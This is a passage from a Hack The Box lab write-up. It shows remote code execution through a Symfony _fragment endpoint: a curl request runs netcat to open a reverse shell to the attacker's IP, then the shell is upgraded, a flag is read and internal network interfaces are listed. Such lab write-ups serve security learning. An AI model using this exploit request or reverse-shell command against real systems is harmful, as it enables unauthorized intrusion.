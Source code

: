 ```
└─$ curl -s 'http://hackfail.htb/_fragment?_path=cmd%3Dnetcat%2B-e%2B%252Fbin%252Fbash%2B10.10.14.5%2B443%26_controller%3Dshell_exec&_hash=CfHiHMP82nuhrlkgr7l362nJSoBGtqJ6kSYie0B354U%3D'
```

We can get the reverse shell as `www-data`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Synacktiv]
└─$ nc -lnvp 443                               
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.13.37.13] 35494

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data

```

Let's upgrade our shell here
```
python3 -c 'import pty;pty.spawn("bash")'
^Z
stty raw -echo; fg
```

We can get the first flag here
```
www-data@blog:/var/www/blog/public$ ls
antibf.php  css  dbconfig.php  fonts  img  index.php  js
www-data@blog:/var/www/blog/public$ cd ..
www-data@blog:/var/www/blog$ ls
bin            composer.lock  flag.txt  src           templates  var
composer.json  config         public    symfony.lock  uploads    vendor
www-data@blog:/var/www/blog$ cat flag.txt
SYNACKTIV{Br34K_Th3_@pp_1Nt0_Fr4gM3NtS}
```

By checking the `ip` address here, we can found we can are in the internal environment
```
www-data@blog:/var/www/blog$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
13: enp0s3@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether d2:14:ae:eb:98:dd brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.22.1.97/24 brd 172.22.1.255 scope global enp0s3
       valid_lft forever preferred_lft forever
    inet6 fe80::d014:aeff:feeb:98dd/64 scope link 
       valid_lft forever preferred_lft forever
```
